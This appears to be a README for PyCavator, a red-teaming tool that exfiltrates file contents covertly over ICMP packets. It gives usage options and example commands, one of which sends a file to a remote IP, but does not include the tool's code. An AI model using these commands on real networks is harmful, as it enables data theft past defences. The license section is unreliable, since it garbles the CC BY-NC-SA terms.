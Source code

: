 # PyCavator

PyCavator is a Python-based tool that can be used to send and receive data using ICMP packets. The tool can be used for authorized red teaming and penetration testing activities or educational purposes. It provides a sender mode to exfiltrate data from a file and a listener mode to receive incoming data and save it in chunks or to a single file. The tool also includes a merge mode to merge output files with part numbers in the specified range. With PyCavator, users can easily exfiltrate or receive data using ICMP packets in a secure and efficient manner.

## Usage

```bash
usage: PyCavator.py [-h] [-l] [-f FILE] [-d ADDRESS] [-s ADDRESS] [-p PROTOCOL] [-w WRITE] [-o FOLDER]
                    [--merge] [-x PREFIX] [-a START_SUFFIX] [-b END_SUFFIX] [-e EXTENSION]

Send and receive data using ICMP packets.

options:
  -h, --help            show this help message and exit
  -l, --listen          listen for incoming data (default: send data)
  -f FILE, --input_file FILE
                        input file to exfiltrate (required in sender mode)
  -d ADDRESS, --dst_addr ADDRESS
                        destination IP address (required in sender mode)
  -s ADDRESS, --src_addr ADDRESS
                        source IP address to listen for (required in listener mode)
  -p PROTOCOL, --protocol PROTOCOL
                        protocol to use (icmp)
  -w WRITE, --write WRITE
                        choices to save data (c for chunk OR s to one single file, required in listener mode)
  -o FOLDER, --output_folder FOLDER
                        output folder for received data (optional in listener mode OR required in merge mode)
  --merge               merge output files with part numbers in the specified range (default: False)
  -x PREFIX, --prefix PREFIX
                        prefix of the output file (required in merge mode)
  -a START_SUFFIX, --start_suffix START_SUFFIX
                        start part number suffix (required in merge mode)
  -b END_SUFFIX, --end_suffix END_SUFFIX
                        end part number suffix (required in merge mode)
  -e EXTENSION, --extension EXTENSION
                        extension of the output file (required in merge mode for saving data to single file)

Examples:
  # Sender mode: exfiltrate data from a file
  python PyCavator.py -f input.txt -d 192.168.1.101 -p icmp
  
  # Listener mode: listen for incoming data and save in chunks
  python PyCavator.py -l -s 192.168.1.100 -p icmp -w c
  
  # Listener mode: listen for incoming data and save to a single file
  python PyCavator.py -l -s 192.168.1.100 -p icmp -w s -o output_folder
  
  # Merge mode: merge output files with part numbers in the specified range
  python PyCavator.py --merge -x output -a 1 -b 10 -e txt -o output_folder
```

## Installation

PyCavator.py requires Python 3 to be installed. To install PyCavator.py, clone the repository and install the required Python modules:

```bash
git clone https://github.com/YOUR_USERNAME/PyCavator.git
cd PyCavator
pip install -r requirements.txt
```

## How to Contribute

If you would like to contribute to PyCavator.py, please fork the repository and submit a pull request.

## Disclaimer

This tool is intended for authorized/legitimate red teaming and pentesting activities or educational purposes only. The author of the tool is not responsible for any misuse or illegal activities that may arise from the use of this tool. Users are responsible for complying with all applicable laws and regulations. By using this tool, you acknowledge that you have read this disclaimer and agree to its terms.

## License

This project is licensed under the Creative Commons Attribution-ShareAlike 4.0 International Public (CC BY-NC-SA 4.0) License.

Under the CC BY-NC-SA 4.0 license, users are allowed to fork, modify, and distribute the project, as long as they follow the license terms.

Users can fork the project to create their own version, and modify it to suit their needs, as long as they distribute their modified version under the same license terms and under the same name. If they want to distribute their modified version under a different name, they would need to seek permission from the original creator.

Users can also submit pull requests to the original repository with their modifications, and the original creator can choose to accept or reject those changes. If the changes are accepted, the modified version will still need to be distributed under the same license terms and under the same name.

It's important to note that the CC BY-NC-SA 4.0 license prohibits commercial use of the project without explicit permission from the original creator. This means that if someone wants to use the project or a modified version of it for commercial purposes, they would need to obtain permission from the original creator to do so. See the [LICENSE](LICENSE) file for details.




